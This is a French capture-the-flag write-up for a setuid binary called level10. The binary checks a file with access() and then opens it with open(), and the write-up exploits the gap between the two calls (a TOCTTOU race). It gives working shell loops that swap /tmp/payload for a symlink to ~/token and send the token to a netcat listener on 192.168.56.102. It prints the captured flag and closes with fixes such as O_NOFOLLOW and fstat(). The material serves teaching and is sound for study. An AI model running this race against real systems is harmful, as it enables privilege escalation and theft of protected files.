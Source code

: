 # Rapport de Vulnérabilité : Exploitation d'une Race Condition TOCTTOU dans `level10`

## Description
Cette faille repose sur une vulnérabilité de type **Race Condition TOCTTOU** (Time-of-Check to Time-of-Use) présente dans l'exécutable `level10`. Le programme vérifie d'abord les permissions d'accès à un fichier avec `access()`, puis l'ouvre avec `open()` pour le transmettre via le réseau. Le délai entre ces deux opérations peut être exploité pour substituer le fichier vérifié par un lien symbolique pointant vers le fichier `~/token` contenant le flag.

## Comment Exploiter la Faille

### Étape 1 : Analyse du comportement du programme
```bash
./level10 file host
```
**Message affiché :**
```
sends file to host if you have access to it
```

**Test avec un fichier accessible :**
```bash
echo "bonjour" > /tmp/test1
./level10 /tmp/test1 192.168.56.102
```
**Résultat :**
```
Connecting to 192.168.56.102:6969 .. Unable to connect to host 192.168.56.102
```

### Étape 2 : Configuration du serveur d'écoute
```bash
nc -l -k 192.168.56.102 6969
```
**Résultat après relancement de level10 :**
```
.*( )*.
bonjour
```

Le programme fonctionne : il vérifie les permissions puis transmet le contenu du fichier au port 6969.

### Étape 3 : Identification de la vulnérabilité
**Analyse avec `strings` :**
```bash
strings level10
```
**Extrait pertinent :**
```
level10.c
stdio.h
socket.h
access
open
```

La présence de `access` et `open` suggère une vulnérabilité TOCTTOU classique.

### Étape 4 : Préparation de l'exploitation

Étant donné les restrictions d'accès de l'utilisateur courant, l'exploitation se fait directement en ligne de commande sans création de fichiers scripts.

**Commande 1 - Attaque continue :**
```bash
while true; do ./level10 /tmp/payload 192.168.56.102 2>/dev/null; done
```

**Commande 2 - Manipulation rapide des fichiers :**
```bash
while true; do echo "test" > /tmp/payload; rm /tmp/payload; ln -s ~/token /tmp/payload; rm /tmp/payload; done
```

### Étape 5 : Lancement de l'exploitation

**Terminal 1 - Serveur d'écoute :**
```bash
nc -l -k 192.168.56.102 6969
```

**Terminal 2 - Attaque continue :**
```bash
while true; do ./level10 /tmp/payload 192.168.56.102 2>/dev/null; done
```

**Terminal 3 - Manipulation des fichiers :**
```bash
while true; do echo "test" > /tmp/payload; rm /tmp/payload; ln -s ~/token /tmp/payload; rm /tmp/payload; done
```

### Étape 6 : Récupération du flag

Après quelques secondes d'exécution parallèle, le serveur netcat reçoit :
```
.*( )*.
woupa2yuojeeaaed06riuj63c
```

**Flag obtenu :**
```
woupa2yuojeeaaed06riuj63c
```

### Étape 7 : Passage au niveau suivant
```bash
su level11
```
**Mot de passe :**
```
woupa2yuojeeaaed06riuj63c
```

---

## Mécanisme de la Race Condition

### Séquence vulnérable dans level10 :
1. **Check** : `access("/tmp/payload", R_OK)` → Vérification des permissions ✓
2. **Délai exploitable** : Quelques microsecondes
3. **Use** : `open("/tmp/payload", O_RDONLY)` → Ouverture du fichier

### Timing d'exploitation :
- **Script 1** bombarde continuellement le programme avec des tentatives
- **Script 2** effectue rapidement la séquence :
  - Création fichier légitime → `access()` passe ✓
  - Suppression + création lien symbolique → `open()` lit le token ✓
  - Suppression du lien

**Résultat :** Le programme lit `~/token` alors qu'il a vérifié les permissions sur un fichier différent.

---

## Comment Résoudre la Faille

Pour corriger cette vulnérabilité :

* **Éviter la séparation check/use** : Utiliser directement `open()` et vérifier les permissions sur le descripteur de fichier ouvert avec `fstat()`.

* **Vérifications atomiques** : Implémenter des contrôles d'accès qui ne peuvent pas être contournés par des modifications concurrentes du système de fichiers.

* **Utilisation de `O_NOFOLLOW`** : Empêcher le suivi des liens symboliques lors de l'ouverture de fichiers.

**Code sécurisé suggéré :**
```c
fd = open(filename, O_RDONLY | O_NOFOLLOW);
if (fd == -1) {
    perror("access denied");
    return -1;
}
fstat(fd, &st);  // Vérifier sur le fichier réellement ouvert
```

## Conclusion

Cette vulnérabilité illustre parfaitement les dangers des Race Conditions dans les programmes avec privilèges élevés. La séparation temporelle entre la vérification des permissions et l'utilisation de la ressource crée une fenêtre d'attaque exploitable. Une approche atomique des vérifications de sécurité est essentielle pour prévenir ce type d'exploitation.

---